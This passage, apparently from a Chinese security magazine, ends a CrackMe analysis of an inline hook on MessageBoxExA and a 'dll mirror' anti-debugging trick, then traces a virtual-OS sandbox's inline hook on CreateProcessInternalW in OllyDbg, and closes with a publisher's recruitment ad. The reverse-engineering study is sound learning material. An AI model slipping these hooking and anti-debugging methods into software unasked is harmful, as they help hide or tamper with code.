验证一下。按 F9 键跑起来，重新输入什么，点击“确定”，啊哦，如图 3 所示。


图 3

坑爹的事情就这么发生了，我一时惊得忘了吐槽。然而，它就是发生了。这就是第二部分：非懂。似懂非懂的感觉总是不太好，所以，我重新单步跟了遍，发现指令流确实顺利从正确分支进入了 MessageBoxA。

编程最怕见到的，不是编译出错，而是运行的结果出乎预料。文学界是很推崇这种欧·亨利式的结局的，但 IT 界则要为欧·亨利抓破头皮。抓头皮的过程苦不堪言，就不细表了，最后跟踪到这里：

```asm
77D5085C  mov eax,401760
77D50861  jmp eax
77D50863  push dword ptr [ebp+18]
77D50866  push dword ptr [ebp+14]
77D50869  push dword ptr [ebp+10]
77D5086C  push dword ptr [ebp+C]
```

```asm
77D5086F  push dword ptr [ebp+8]
77D50872  call MessageBoxTimeoutA
77D50877  pop ebp
77D50878  retn 14
```

这是哪里？MessageBoxExA，MessageBoxA 会调用这个函数。可以看见，开头的两个指令实现了一个寄存器间接跳转。当然，这不是一个简单的间接跳转，我们都懂的，这是一个 Hook。

恍然大悟。尽管指令流确实通过正确分支进入 MessageBoxA，但螳螂捕蝉黄雀在后，CrackMe 在 MessageBoxA 的调用函数 MessageBoxExA 做了手脚，于是就有了欧·亨利式的结局。

知道 Hook 的幕后把戏，再破解就不难了。这里我想解密这个 Hook 的形成。此处所用到的 Hook 方法，对于反调试甚至写壳都能有所启发，值得看看。一切的开始，得从 0x00401990 处的函数说起。

```asm
00401990  mov eax,dword ptr [esp+4]
00401994  sub esp,14
00401997  push ebp
00401998  push eax
00401999  call dword ptr [<&KERNEL32.GetModuleHandleA>]
0040199F  mov ebp,eax
004019A1  test ebp,ebp
004019A3  jnz short 004019AA
```

这是调用 GetModuleHandleA，参数是 user32.dll，取得 user32.dll 的句柄。接下来不知是作者太过率性还是故意为之，指令流跳去干了别的事（详见后文）。为了保持连贯性，这里直接连线后文：

```asm
00401A01  mov ecx,dword ptr [esp+28]
00401A05  push ecx
00401A06  push ebp
00401A07  call dword ptr [<&KERNEL32.GetProcAddress>]
```

GetProcAddress！GetModuleHandleA 的老搭档了，这里获取的是 MessageBoxExA 函数的首地址。MessageBoxExA？不正是被 Hook 的那个函数？这里正是获取了要 Hook 的地址，是不是有种渐渐接近真相的感觉。

按常规的编程思路，获取完要 Hook 的地址，接着做什么？放钩子！这里就体现了作者的幽默感，他选择了 WriteProcessMemory：

```asm
00401A1A  push 0
00401A1C  push 1
00401A1E  lea  edx,[esp+17]
00401A22  push edx
00401A23  push esi
...
call kernel32.WriteProcessMemory
...
call kernel32.WriteProcessMemory
...
call kernel32.WriteProcessMemory
```

对本进程的内存空间一连调用三个 WriteProcessMemory，连分配内存也用 VirtualAllocEx（详见后文），是会令一些不懂幽默的 Cracker 以为这是在注入别的进程空间的。然而，一切的关键，都掌握在获取进程句柄的函数上：

```asm
004019AA  push ebx
004019AB  mov  ebx,[<&KERNEL32.GetCurrentProcess>]
...
004019BA  call ebx
```

不难看出，早在 0x004019BA，CrackMe 就调用了 GetCurrentProcess 获取本进程的句柄，并将得到的本进程句柄用于后面的跨进程操作 API。这就有力地证明了 CrackMe 只是操作本进程空间，而没有注入其他进程。接下来，解释一下为什么要用三个 WriteProcessMemory。

回忆一下，钩子的形式是这样的：

```asm
77D5085C  B8 60174000   mov eax,401760
77D50861  FFE0          jmp eax
```

一共七个字节。第一个字节，是 B8，这是一个给 eax 寄存器赋值的 Opcode，所赋的值保存在第二个字节开始的 DWORD 中，这里是 60174000，因为 x86 的指令是小端字序，所以这里的具体数值应该反过来看，是 0x401760。最后两个字节，则构成了 jmp eax 指令。

可以看出，这个间接跳转钩子由三部分构成。根据这三部分，CrackMe 选择进行三次调用 WriteProcessMemory，每个部分分别写入内存空间。现在，只剩一个问题：Hook 破坏了 MessageBoxExA 函数，那 CrackMe 是怎样实现弹框的呢？答案是采用了 dll 镜像法。听起来好像很有技术含量，是不是特别想知道炮制的方法？请看这里：

```asm
004019CB  mov edx,[esp+18]
004019CF  push edi
004019D0  push 40
004019D2  push 3000
004019D7  push edx
004019DA  push 0
004019DD  call dword ptr [<&KERNEL32.VirtualAllocEx>]
...
004019F7  rep movs dword ptr es:[edi],dword ptr [esi]
004019FE  rep movs byte ptr es:[edi],byte ptr [esi]
```

这段代码，是紧接在 0x00401990 处 GetModuleHandleA 后面。首先，通过一个前文提到的 VirtualAllocEx，在本进程空间分配内存。接下来看到两个 rep。

在第一个 rep 之前，CrackMe 已经通过 GetModuleHandleA 获取了 user32.dll 的首地址，而此时的 user32.dll 还没被 Hook 的代码污染，是干净的。现在，通过 rep，把 user32.dll 的代码统统复制到 VirtualAllocEx 申请的内存空间中，这样就完成了听起来很神奇的 dll 镜像。最后，CrackMe 只需要调用镜像 user32.dll 中的相应 API，即可实现弹框。

dll 镜像在反调试和壳代码中是时常用到的。对 dll 做了镜像，在原 API 的内存地址所下的内存断点就失效了。简单的一个 rep，就能让 Cracker 摸不着头脑，真的很划算。当然，道高一尺魔高一丈，通常对抗 dll 镜像的方法，是在更深的地方设置 API 断点。所谓殊途同归，无论再怎样镜像，终归是要调用一个底层的 API 的。

到这里，这个 CrackMe 最有趣最值得玩味的地方就分享完了。什么？还漏了第二个 rep？噢，请忘记它，它只是一个空转，或许，因为作者本身也已经忘记它了。

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

- 前置知识：汇编
- 关键词：慧炬，虚拟，系统

# 慧炬虚拟操作系统探秘（一）


图/文 woosheep

慧炬是一款虚拟操作系统，据官网介绍，用户通过安装慧炬，可以随时随地使用自己的办公环境，支持“在慧炬与公司电脑桌面之间，一键来回切换”。听起来很美。先试用一下，进入慧炬，界面如图 1 所示。

试用发现慧炬的操作系统版本与宿主操作系统一致，即如果宿主系统是 Win7，慧炬也是 Win7，宿主是 XP，慧炬也是 XP。说明慧炬并未运行一套独立的操作系统，而只是从宿主操作系统划分出来的。根据介绍，慧炬应该是一款系统级的沙箱软件，类似影子系统。但是又支持主-客机切换，在使用方面更灵活了一点。然而这点灵活，却带来了一个设计上问题：路径问题。

慧炬自称隔离了宿主操作系统，然后实际的操作又依赖宿主系统，那该如何处理慧炬系统的文件路径问题呢？有两种办法。第一种，直接使用宿主系统的路径，即慧炬系统显示的就是宿主系统的路径。这种做法实现简单，但用起来就会明显觉得虚拟系统与宿主系统还是连在一起的，用户体验不好。要解决这个问题，可以采用第二种办法：对宿主路径进行映射。

做个测试。在慧炬桌面新建一个文本文档，查看属性，显示路径是 `C:\Documents and Settings\User\Desktop\`。实际上该文件位置是在慧炬安装目录下的 `\HopecofVOS\Software\Documents and Settings\User\Desktop\`。显然，慧炬采用了第二种办法，对宿主操作系统的路径进行了映射，从而让用户觉得……


图 1

系统实现了隔离。

然而，提升用户体验总是要付出代价的。在 Windows 下双击程序产生的进程，实际是由 explorer 调用 CreateProcessW 创建，这就是新进程的父进程是 explorer 的原因。然而，调用 CreateProcess 这类函数，需要传递程序的路径。但慧炬系统做的路径映射修改了真实路径，那就有可能造成在虚拟系统下启动程序的时候，传给 explorer 的路径参数就是错误的，并将最终导致“在指定位置找不到该文件”的错误。慧炬要怎样解决这个问题呢？

先来看看慧炬是否存在“路径危机”。首先 OD 附加 explorer，停在这里：

```
019D0020  90            nop
019D0021  ^EB DF        jmp short
019D0023  0000          add byte ptr [eax], al
019D0025  0000          add byte ptr [eax], al
019D0027  0000          add byte ptr [eax], al
019D0029  0000          add byte ptr [eax], al
```

看起来怪怪的吧？不过有经验的读者应该很熟悉，调试器附加程序后都会断在这里。这时桌面操作会变得黏糊糊的，看起来像假死一样。这是 explorer 所有线程都被 OD 挂起所造成的，是“正常现象”。

接下来，按 Ctrl+E 组合键，进入模块窗口，找到 kernel32.dll。双击或者回车进入 kernel32.dll 的内存空间后，按 F2 键对 CreateProcessInternalW 下软断点：

```
7C8197B0 >$-E9 2BC98293    jmp HdHook.100460E0
7C8197B5   68 889A817C       push 7C819A88
7C8197BA   E8 178DFEFF       call 7C8024D6
7C8197BF   A1 CC56887C       mov eax, dword ptr [7C8856CC]
7C8197C4   8945 E4           mov dword ptr [ebp-1C], eax
7C8197C7   8B45 08           mov eax, dword ptr [ebp+8]
```

为什么要对 CreateProcessInternalW 下断？从上面的反汇编码可以看出，函数入口的反汇编码是：

```
7C8197B0 >$-E9 2BC98293    jmp HdHook.100460E0
```

这是一个标准的使用 5 字节长跳的 inline 钩子。在后续的文章还将会看到，慧炬系统在 ring3 层面大量使用 inline 钩子，以便插手用户与宿主操作系统之间的交互操作，实现所谓的系统隔离。这里就以 CreateProcessInternalW 为例，看看慧炬如何偷天换日。

# 如何偷天换日

先介绍一下 CreateProcessInternalW。这并不是 Windows 的公开函数，函数声明如下：

```
BOOL
STDCALL
CreateProcessInternalW(HANDLE hToken,
    LPCWSTR lpApplicationName,
    LPWSTR lpCommandLine,
    LPSECURITY_ATTRIBUTES lpProcessAttributes,
    LPSECURITY_ATTRIBUTES lpThreadAttributes,
    BOOL bInheritHandles,
    DWORD dwCreationFlags,
    LPVOID lpEnvironment,
    LPCWSTR lpCurrentDirectory,
    LPSTARTUPINFOW lpStartupInfo,
    LPPROCESS_INFORMATION lpProcessInformation,
    PHANDLE hNewToken)
```

什么时候会使用 CreateProcessInternalW 函数呢？我们都知道，最常用来创建进程的函数是 CreateProcess，而这个函数实际上分为 CreateProcessA 和 CreateProcessW，前者为兼容老程序，后者，也就是 CreateProcess 的宽字符版，才是微软推荐用来创建进程的函数。Explorer 就是使用 CreateProcessW 来创建新进程的。看看 CreateProcessW 的完整反汇编码：

```
7C802336  8BFF        mov edi, edi
7C802338  55          push ebp
7C802339  8BEC        mov ebp, esp
7C80233B  6A00        push 0
7C80233D  FF75 2C     push [arg.10]
7C802340  FF75 28     push [arg.9]
7C802343  FF75 24     push [arg.8]
7C802346  FF75 20     push [arg.7]
7C802349  FF75 1C     push [arg.6]
7C80234C  FF75 18     push [arg.5]
7C80234F  FF75 14     push [arg.4]
7C802352  FF75 10     push [arg.3]
7C802355  FF75 0C     push [arg.2]
7C802358  FF75 08     push [arg.1]
7C80235B  6A00        push 0
7C80235D  E8 4E740100 call CreateProcessInternalW
7C802362  5D          pop ebp
7C802363  C2 2800     retn 28
```

可以看出，CreateProcessW 实际上只是个“外壳”API，它把传入参数简单地转换一下，实际工作是在 0x7C80235D 处调用 CreateProcessInternalW 完成的。

现在，按 F9 键让程序跑起来。点击刚刚在慧炬桌面新建的文本文件。这时，explorer 会运行系统自带的记事本程序 notepad.exe 来读取这个文件，这时就会调用 CreateProcessInternalW。实践证明，OD 确实断在函数的入口点。

不过，慧炬只是把自身安装文件夹路径映射成系统文件夹路径。而 notepad.exe 本身就在系统文件夹下，并不受映射影响。因此，为了更突出实验的效果，我们把 notepad.exe 复制到慧炬桌面。执行同样的步骤，断在同样地方。堆栈数据如下：

```
$    ==>       > 00000000
$+4            > 00000000
$+8            > 00B48020
               UNICODE "C:\Documents and Settings\User\Desktop\NOTEPAD.EXE"
$+C            > 00000000
$+10           > 00000000
$+14           > 00000000
$+18           > 00000000
$+1C           > 00000000
$+20           > 0007F134  UNICODE "C:\Documents and Settings\User\Desktop"
$+24           > 0007EA34
$+28           > 0007EA24
```

对比 CreateProcessInternalW 的函数声明，可以看到由于慧炬采取了路径映射，程序映像的路径参数如下：

> C:\Documents and Settings\User\Desktop\NOTEPAD.EXE

而实际路径应该是慧炬安装目录下的  
\HopedotVOS\Software\Documents and Settings\User\Desktop\NOTEPAD.EXE。

实验证实了前面关于“路径危机”的猜想。如果慧炬不处理这种差异，就会导致出错。那么，慧炬是怎样处理差异的呢？慧炬可以通过直接调用底层的 ntdll 相关函数来自行实现自己的创建进程函数，但这样显然开销太大，况且现在已经把 CreateProcessInternalW 函数 Hook 住了，于是它做了一个并不艰难的决定——利用钩子修改函数的参数：

```asm
1000A5E0  8B4930        mov  ecx, dword ptr [ecx+30]
1000A5E3  8B4424 2C     mov  eax, dword ptr [esp+2C]
1000A5E7  8B5424 24     mov  edx, dword ptr [esp+24]
1000A5EB  51            push ecx
1000A5EC  8B4C24 2C     mov  ecx, dword ptr [esp+2C]
1000A5F0  50            push eax
1000A5F1  8B4424 28     mov  eax, dword ptr [esp+28]
1000A5F5  51            push ecx
1000A5F6  8B4C24 28     mov  ecx, dword ptr [esp+28]
1000A5FA  52            push edx
1000A5FB  8B5424 28     mov  edx, dword ptr [esp+28]
1000A5FF  50            push eax
1000A600  8B4424 28     mov  eax, dword ptr [esp+28]
1000A604  51            push ecx
1000A605  8B4C24 28     mov  ecx, dword ptr [esp+28]
1000A609  52            push edx
1000A60A  8B5424 28     mov  edx, dword ptr [esp+28]
1000A60E  50            push eax
1000A60F  8B4424 28     mov  eax, dword ptr [esp+28]
1000A613  51            push ecx
1000A614  8B4C24 28     mov  ecx, dword ptr [esp+28]
1000A618  52            push edx
1000A619  50            push eax
1000A61A  51            push ecx
1000A61B  BA 74D50810   mov  edx, 1008D574
1000A620  FFD2          call edx
1000A622  C2 2C00       retn 2C
```

请注意 0x1000A60A 处的赋值，赋值完成之后 edx 的值即为程序真实路径的首地址。然后，将 edx 按调用 CreateProcessInternalW 函数的参数顺序重新压栈，最后在 0x1000A620 处 call edx，此时 edx 的值为 0x1008D574。

这实际上是一个间接跳转，钩子要返回原函数了：

```asm
1008D574   68 080A0000   push 0A08
1008D579   E9 37C2786C   jmp  kernel32.7C8197B5
```

钩子返回 0x7C8197B5。0x7C8197B5 是什么地方？正是 CreateProcessInternalW 函数为 5 字节挂钩后的第一条代码。慧炬只是简单地替换了路径，真正创建程序的工作仍由 CreateProcessInternalW 函数完成。就是这么简单几步，慧炬就信手完成了偷天换日。然而，解决一个简单的问题又总会带来更多不简单的问题，问题之一就是真实地址该如何获取？读者稍安勿躁，请听下回分解。

# 博文视点诚邀精锐作者加盟

《代码大全》、《Windows内核情景分析》、《加密与解密》、《编程之美》、《VC++深入详解》、《SEO实战密码》、《PPT演义》……  
“圣经”级图书光耀夺目，被无数读者朋友奉为案头手册、传世经典。  
潘爱民、毛德操、张亚勤、张宏江、曾辉Zac、李刚、曹江华……  
“明星”级作者济济一堂，他们的名字熠熠生辉，与 IT 业的蓬勃发展紧密相连。  
九年的开拓、探索和励精图治，成就博古通今、文圆质方、视角独特、点石成金之计算机图书的风向标杆：博文视点。  
“凤翱翔于千仞兮，非梧不栖”，博文视点欢迎更多才华横溢、锐意创新的作者朋友加盟，与大师并列于 IT 专业出版之巅。

## 英雄帖

江湖风云起，代有才人出。  
IT 界群雄并起，逐鹿中原。  
博文视点诚邀天下技术英豪加入，  
指点江山，激扬文字，  
传播信息技术，分享匠心得。

## 专业的作者服务

博文视点自成立以来一直专注于 IT 专业技术图书的出版，拥有丰富的与技术图书作者合作的经验，并参照 IT 技术图书的特点，打造了一支高效运转、富有服务意识的编辑出版团队。我们始终坚持：

- **善待作者**——我们会把出版流程整理得清晰简明，为作者提供优厚的稿酬服务，解除作者的顾虑，安心写作，展现出最好的作品。
- **尊重作者**——我们尊重每一位作者的技术实力和生活习惯，并会参照作者实际的工作、生活节奏，量身制定写作计划，确保合作顺利进行。
- **提升作者**——我们打造精品图书，更要打造知名作者。博文视点致力于通过图书提升作者的个人品牌和技术影响力，为作者的事业开拓带来更多的机会。


## 联系我们

- 博文视点官网：http://www.broadview.com.cn
- 新浪官方微博：http://weibo.com/broadviewbj
- 投稿电话：010-51260888、88254368
- CSDN官方博客：http://blog.csdn.net/broadview2006/
- 腾讯官方微博：http://t.qq.com/bowenshidian
- 投稿邮箱：lsj@phei.com.cn

# 博文视点精品图书展台

## 专业典藏


## 移动开发


## 物联网

## 云计算


## 数据库

### Web开发


## 程序设计

## 网络营销


## 办公精品

